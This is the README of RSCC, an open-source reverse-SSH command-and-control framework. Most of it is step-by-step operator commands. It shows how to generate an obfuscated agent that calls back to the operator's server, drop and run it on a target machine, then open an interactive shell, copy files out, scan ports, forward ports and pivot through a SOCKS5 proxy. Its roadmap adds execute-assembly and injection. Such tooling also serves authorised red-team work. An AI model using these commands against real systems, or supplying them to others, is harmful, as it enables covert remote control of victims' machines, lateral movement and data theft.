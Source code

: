 <div align="center">
  <h1>RSCC</h1>
  <tt>~ Reverse SSH Command & Control ~</tt><br/>
  <img src=".github/rscc.png"/><br/>
</div>

RSCC is an open source, cross-platform command & control framework that allows you to control your agents (targets) via SSH.

## Features

Since RSCC is based on SSH, it has the following features:

- Cross-platform agents
- Fully interactive shell
- File transfer via SCP or SFTP
- Local / Remote  port forwarding
- Chain SOCKS5 proxy via SSH -D

**Also you can extend agent with your own SSH subsystems!**

As an example, there is a [port scanner subsystem](pkg/agent/internal/sshd/subsystems/pscan.go) that allows you to scan the target host for open ports from the agent.

<details>
<summary>Example</summary><br/>

```sh
ssh rscc+agent_id -s pscan --ports 139,445,3389 --ips 10.10.10.10
```

</details>

## Getting Started

### Prerequisites

To use RSCC, you need to have following tools on server machine:

- Go 1.24+ (https://go.dev/doc/install)
- Garble (https://github.com/burrowers/garble)

### Installation

Just download binary from [latest release](https://github.com/nu11zy/rscc/releases/latest) and run it.

Or build it from source:

```sh
git clone https://github.com/nu11zy/rscc.git
cd rscc
make build
```

## Usage

### Server

1. Add your public key to `authorized_keys` file in the current directory or `~/.ssh/authorized_keys`.

2. Start **RSCC** server:

```sh
./rscc
```

3. Update your SSH config (for example, `~/.ssh/config`):

```yml
# Server config
Host rscc
  HostName 127.0.0.1 # RSCC server IP
  Port 55022         # RSCC operator port
  User nu11z         # Operator username

# Agent config
Host rscc+*
  ProxyJump rscc
  UserKnownHostsFile /dev/null
  StrictHostKeyChecking no
```

4. Connect to **RSCC** server:

```sh
ssh rscc
```

5. Generate agent (see `--help` for more options):

```sh
rscc > agent generate -s "127.0.0.1:8080"
```

6. Download agent to your machine (*web delivery is coming soon*):

```sh
scp rscc:/path/to/agent /path/to/local/file
```

### Target

1. Drop agent to target machine and execute it:

2. Get agent's session ID:

```sh
ssh rscc session list
```

3. Connect to agent:

```sh
ssh rscc+session_id
```

### More examples

<details>
<summary>SOCKS5 Proxy</summary><br/>

```sh
ssh -D 9090 rscc+agent_id
```

Now you can use `127.0.0.1:9090` as SOCKS5 proxy.

</details>

<details>
<summary>Transfer files</summary><br/>

SCP:

```sh
scp /path/to/local/file rscc+agent_id:/path/to/remote/file
```

SFTP:

```sh
sftp rscc+agent_id
```

</details>

<details>
<summary>Port forward subsystem</summary><br/>

List forwarded ports:

```sh
ssh rscc+agent_id -s pfwd list
```

Forward local port 8080 to 1.1.1.1:80:

```sh
ssh rscc+agent_id -s pfwd start 8080:1.1.1.1:80
```

Stop port forward:

```sh
ssh rscc+agent_id -s pfwd stop 8080
```

</details>

## Roadmap

- [ ] Support for agent listeners with custom protocols (HTTP, WS, gRPC)
- [ ] Add more subsystems *(execute-assembly, port forward, inject, etc)*
- [ ] Webhooks for events
- [ ] HTTP server for serving agents
- [ ] More documentation
